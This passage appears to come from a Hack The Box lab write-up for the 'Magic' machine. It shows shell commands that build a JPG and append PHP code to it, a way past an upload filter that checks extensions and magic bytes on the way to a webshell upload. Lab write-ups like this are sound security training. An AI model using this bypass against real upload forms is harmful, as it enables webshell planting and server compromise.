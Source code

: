### Webshell upload bypass with magic bytes

- It only allow files ending with `jpg, jpeg, png`

![](/assets/obsidian/7ea4809ebd2e30204f05c2d7f02bd040.png)

- If the magic bytes are not allowed, it will return `What are you trying to do there?`

![](/assets/obsidian/ad28460f7d1971b166ad142340719eab.png)

Create a dummy jpg file for testing

```bash
┌──(bravosec㉿fsociety)-[~/htb/Magic]
└─$ convert -size 100x100 xc:white white_100x100.jpg
```

Append php code

```bash
┌──(bravosec㉿fsociety)-[~/htb/Magic]
└─$ echo '<?php phpinfo(); ?>' > phpinfo.php

┌──(bravosec㉿fsociety)-[~/htb/Magic]
└─$ cat white_100x100.jpg phpinfo.php > white.jpg
```
